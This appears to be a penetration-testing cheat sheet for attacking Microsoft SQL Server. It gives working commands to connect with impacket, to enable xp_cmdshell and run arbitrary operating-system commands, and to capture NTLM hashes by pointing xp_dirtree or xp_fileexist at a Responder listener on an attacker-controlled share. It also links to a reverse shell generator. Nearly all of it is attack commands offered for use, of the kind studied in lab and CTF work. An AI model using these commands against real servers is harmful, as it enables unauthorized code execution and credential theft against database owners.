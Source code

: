 # Microsoft SQL Server
## Notes
If commands are not found or do not work, you may need to install or update it.
The commands and tools used here were tested on Kali Linux (Rolling Edition)

## Port
1433

## Connecting
```bash
impacket-mssqlclient <Username>@<IP> -windows-auth
```

## RCE using `xp_cmdshell`
If the following command returns 1, the account has sysadmin privileges and can run remote commands via `xp_cmdshell`.
```bash
SELECT IS_SRVROLEMEMBER('sysadmin') #1
```
If you have sysadmin privileges, you can enable xp_cmdshell and run arbitrary commands by executing
```bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell '<Command>';
```

## Capture NTLM hashes using Responder and `xp_dirtree` or `xp_fileexist`
If you do not have sysadmin privileges, you can use Responder with xp_dirtree or xp_fileexist to capture NTLM hashes.
```bash
sudo responder -I tun0 #another terminal

SELECT IS_SRVROLEMEMBER('sysadmin') #0
EXEC xp_dirtree '\\<IP>\<Share>' # or '//<IP>/<Share>'
# EXEC xp_fileexist '\\<IP>\<Share>' or '//<IP>/<Share>'
```

# Reference
[Microsoft SQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

[Reverse shell generator](https://www.revshells.com/)
